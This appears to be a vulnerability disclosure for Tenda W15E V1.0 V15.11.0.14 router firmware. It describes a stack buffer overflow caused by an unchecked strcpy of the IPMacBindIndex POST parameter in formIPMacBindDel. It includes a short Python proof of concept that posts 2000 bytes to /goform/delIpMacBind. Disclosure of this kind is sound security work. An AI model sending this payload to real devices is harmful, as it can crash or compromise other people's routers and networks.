 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formIPMacBindDel` function. The `indexSet` variable receives the `IPMacBindIndex` parameter from a POST request and is directly assigned to `strcpy`. However, since the user can control the input of `IPMacBindIndex `, the statement `strcpy((char *)indexs, (const char *)indexSet);` can cause a buffer overflow. The user-provided  `IPMacBindIndex` can exceed the capacity of the `indexs` array, triggering this security vulnerability.

![image-20240417102021681](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417102021681.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/delIpMacBind"
payload = b"a"*2000

data = {
    	'IPMacBindIndex':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
